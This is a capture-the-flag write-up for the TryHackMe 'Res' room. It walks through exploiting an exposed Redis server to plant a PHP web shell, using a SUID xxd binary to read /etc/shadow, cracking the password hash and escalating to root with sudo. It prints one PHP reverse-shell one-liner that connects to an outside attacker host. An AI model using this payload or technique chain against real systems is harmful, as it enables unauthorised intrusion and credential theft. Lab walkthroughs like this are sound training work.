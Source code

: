 # Res - Writeup

**Date**: 27/03/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/res](https://tryhackme.com/room/res)

---

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

# Scan the machine, how many ports are open?

![Untitled](images/Untitled.png)

# What’s the database management system installed on the server? What port is the database management system running on?What's is the version of management system installed on the server?

![Untitled](images/Untitled%201.png)

# Compromise the machine and locate user.txt

First of all, let’s visit the webpage hosted on the port 80:

![Untitled](images/Untitled%202.png)

It displays a default page of an apache server recently installed.

As we have seen, there is a redis server running on port 6379. After some reading, I found that there is a way to interact with this service.

Let’s download the redis application:

[https://redis.io/docs/getting-started/](https://redis.io/docs/getting-started/) 

[https://redis.io/docs/manual/cli/](https://redis.io/docs/manual/cli/)

Let’s test the connection:

![Untitled](images/Untitled%203.png)

It seems like we have connection with the redis server!

![Untitled](images/Untitled%204.png)

The info command seems to be helpful to retrieve redis server information:

![Untitled](images/Untitled%205.png)

According to this webpage ([https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)) there is a way to do a Remote Code Execution on a redis server:

![Untitled](images/Untitled%206.png)

We should know the path where we want to write the php file. Since we have visited the page before, we know that the folder is: `/var/www/html`

So, following the steps we do the same in our case:

![Untitled](images/Untitled%207.png)

Now let’s visit the page:

![Untitled](images/Untitled%208.png)

It works, now let’s try to write a reverse shell in php:

![Untitled](images/Untitled%209.png)

Let’s open a netcat listener in our machine:

![Untitled](images/Untitled%2010.png)

And let’s visit the rs.php file:

![Untitled](images/Untitled%2011.png)

We got a connection but it quickly disconnects...

Let’s try with this other one-line php reverse shell:

```jsx
'<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.10.10/1234 0>&1\'"); ?>'
```

![Untitled](images/Untitled%2012.png)

![Untitled](images/Untitled%2013.png)

Yeah, this one works! 

![Untitled](images/Untitled%2014.png)

We found the key file in the /home/vianka folder.

# What is the local user account password?

Before anything, let’s try to stabilize this shell:

![Untitled](images/Untitled%2015.png)

Python is installed in the machine, so let’s use it:

![Untitled](images/Untitled%2016.png)

Ok, shell stabilized, now let’s look for the local user account password. Can we read /etc/shadow file?

![Untitled](images/Untitled%2017.png)

Nope, we can’t.

Something interesting in the history?

![Untitled](images/Untitled%2018.png)

Let’s see if we find some keys in the user directory... nothing useful I can see...

After spending some time looking for ssh keys or something useful, I look for files with SUID activated:

![Untitled](images/Untitled%2019.png)

From this list, xxd appears in the GTFO Bins list:

![Untitled](images/Untitled%2020.png)

Exploiting this, we should be able to read /etc/shadow file!

![Untitled](images/Untitled%2021.png)

Yeah! Now with the info of /etc/passwd, let’s use unshadow and John the ripper to crack the hash!

![Untitled](images/Untitled%2022.png)

Unshadow done, now let’s crack it!

![Untitled](images/Untitled%2023.png)

Cool!

# Escalate privileges and obtain root.txt

Let’s login as vianka and see if we have more permissions:

![Untitled](images/Untitled%2024.png)

Enough permissions to access to root folder?

![Untitled](images/Untitled%2025.png)

Nope. Let’s see what we can execute with sudo:

![Untitled](images/Untitled%2026.png)

Really? We can run any command using sudo...

![Untitled](images/Untitled%2027.png)

Woah

![Untitled](images/Untitled%2028.png)

And this quickly we get the last flag!